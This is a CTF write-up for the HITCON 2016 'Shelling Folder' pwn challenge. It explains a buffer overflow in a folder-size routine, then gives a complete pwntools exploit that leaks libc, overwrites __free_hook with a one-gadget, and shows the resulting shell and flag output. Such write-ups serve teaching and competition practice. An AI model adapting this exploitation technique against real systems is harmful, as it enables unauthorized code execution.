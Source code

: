 title: HITCON CTF 2016 Quals -- Shelling Folder
tags:
  - CTF
  - HITCON
  - BOF
  - Pwnable
  - heap
  - Python
categories:
  - write-ups
author: bruce30262
date: 2016-10-10 16:11:00
---
**Category:** pwn
**Points:** 200

<!-- more -->  

64 bit ELF, with all the protection enabled.  

The program is a simple file system. You can create or delete files and folders, list files in a folder, change the current folder and calculate the size of a folder.  

It's a unix-like file system, where folders are also a special type of file. Both folders and files are stored in the program with the following data structure:
```c
struct file{
    struct file *sub_file[10]; // will all be null if it's a normal file
    struct file *parent_folder;
    char name[32];
    long file_size;
    int is_dir;
}
```
If a folder is created, the `is_dir` flag will be set to `1`, and the `file_size` will be set to `0`. A folder is allowed to contain at most 10 `sub_file`. If a normal file is created ( not folder ), the `is_dir` flag will be set to `0`, and the value of `file_size` is set by user. 

There's a **buffer overflow vulnerability** in the function of calculating the folder size:
```c
void cal_folder_size(struct file *cur_folder)
{
    char s; // [sp+10h] [bp-30h]@3
    __int64 *v3; // [sp+28h] [bp-18h]@5
    int idx; // [sp+30h] [bp-10h]@3

    if ( !cur_folder )
        exit(1);
    idx = 0;
    memset(&s, 0, 0x20uLL);

    while ( idx <= 9 )
    {
        if ( cur_folder->sub_file[idx] )
        {
            v3 = &cur_folder->file_size;
            copy_file_name(&s, cur_folder->sub_file[idx]->name); // <-- here we have a buffer overflow vulnerability
            if ( cur_folder->sub_file[idx]->is_dir == 1 )
            {
                *v3 = *v3;
            }
            else
            {
                printf("%s : size %ld\n", &s, cur_folder->sub_file[idx]->file_size);
                *v3 += cur_folder->sub_file[idx]->file_size;
            }
        }
        ++idx;
    }
    printf("The size of the folder is %ld\n", cur_folder->file_size);

}
```
When we set a file's name, we can input at most 31 characters. Inside the `cal_folder_size` function, the program will try to copy the file's name into a buffer `s`, which its size is only 24 bytes long. The vulnerability will cause the program to overwrite the `v3` variable.

The `v3` variable is an `int*` type pointer, which points to the current folder's `file_size`. Since we can overwrite this pointer, we can try to control this pointer and the size of the `sub_file[idx]`, so when the program execute the code at line:
```c
*v3 += cur_folder->sub_file[idx]->file_size
```
**it will actually let us control the value of any address.**

But remember the program has all the protection enabled, including **PIE**, so first we'll have to leak some address. Here's how I leak the address of the libc:

1. Create & delete some folders, so the pointer that points to the head of smallbin will appear on the heap memory.
2. Exploit the buffer overflow vulnerability, partial overwrite the `v3` pointer and make it point to a `struct file` pointer `p` ( `*v3 = p`).  
3. Control a `sub_file`'s `file_size`, so when it comes to the line `*v3 += cur_folder->sub_file[idx]->file_size`, it will adjust the value of `p`, making `p->name` point to the libc's address ( address of the smallbin's head )
4. List the files in the current folder and leak the libc's address.

After we got the libc's address, we can use the same vulnerability to overwrite the `__free_hook` function pointer into the address of **one gadget**, and get the shell by deleting a file. Notice that `file_size` stores the value returned by `atoi`, a four-byte integer, so we'll have to overwrite `__free_hook` twice : first  overwrite `__free_hook`,  then overwrite `__free_hook+4`.

```python exp_shell.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.69.237.212"
#HOST = "127.0.0.1"
PORT = 4869
ELF_PATH = "./shellingfolder_noalarm"
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"
LIBC_PATH = "./libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def str_addr(s, f): # search string address in file
    result = list(f.search(s+"\x00"))
    if not len(result): # no result
        return None
    else:
        return result[0]

def create_file(name, size):
    r.sendlineafter(":", "4")
    r.sendafter(":", name)
    r.sendlineafter(":", str(size))

def change_dir(name):
    r.sendlineafter(":", "2")
    r.sendafter(":", name)

def remove(name):
    r.sendlineafter(":", "5")
    r.sendafter(":", name)

def make_dir(name):
    r.sendlineafter(":", "3")
    r.sendafter(":", name)

def ls():
    r.sendlineafter(":", "1")

def cal():
    r.sendlineafter(":", "6")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    # overwrite &file->fize_size (address of file_size)
    # use cal() to let file->name point to main_arena+88
    make_dir("AAAA")
    make_dir("BBBB")
    make_dir("CCCC")
    create_file("F"*24+p8(0x10), 64)
    remove("BBBB\n")
    remove("CCCC\n")
    cal()
    ls()

    # leak libc address
    ######################## one gadget
    # .text:000000000004525A                 mov     rax, cs:environ_ptr_0
    # .text:0000000000045261                 lea     rdi, aBinSh     ; "/bin/sh"
    # .text:0000000000045268                 lea     rsi, [rsp+188h+var_158]
    # .text:000000000004526D                 mov     cs:dword_3C54A0, 0
    # .text:0000000000045277                 mov     cs:dword_3C54A4, 0
    # .text:0000000000045281                 mov     rdx, [rax]
    # .text:0000000000045284                 call    execve
    ##########################
    r.recvuntil("----------------------\n")
    libc.address += u64(r.recv(6).ljust(8, "\x00")) - 0x3c3b78
    one_gadget = libc.address + 0x4525a
    malloc_hook = libc.symbols['__malloc_hook']
    free_hook = libc.symbols['__free_hook']
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))
    log.success("malloc_hook: "+hex(malloc_hook))
    log.success("free_hook: "+hex(free_hook))

    # overwrite free_hook to one_gadet
    make_dir("DDDD")
    change_dir("DDDD\n")
    create_file("i"*24+p64(free_hook)[:7:], (one_gadget & 0xffffffff))
    create_file("I"*24+p64(free_hook+4)[:7:], ((one_gadget & 0xffffffff00000000)>>32))
    cal()
    # get shell
    remove("i"*24+p64(free_hook)[:7:])
    
    r.interactive()
```

```
[x] Opening connection to 52.69.237.212 on port 4869
[x] Opening connection to 52.69.237.212 on port 4869: Trying 52.69.237.212
[+] Opening connection to 52.69.237.212 on port 4869: Done
[+] libc_base: 0x7ff15c7cc000
[+] one_gadget: 0x7ff15c81125a
[+] malloc_hook: 0x7ff15cb8fb10
[+] free_hook: 0x7ff15cb917a8
[*] Switching to interactive mode
 size 32753
The size of the folder is 0
**************************************
            ShellingFolder            
**************************************
 1.List the current folder            
 2.Change the current folder          
 3.Make a folder                      
 4.Create a file in current folder    
 5.Remove a folder or a file          
 6.Caculate the size of folder        
 7.Exit                               
**************************************
Your choice:Choose a Folder or file :

// id
uid=1000(shellingfolder) gid=1000(shellingfolder) groups=1000(shellingfolder)

// cat /home/shellingfolder/flag
hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}
``` 

flag: `hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}`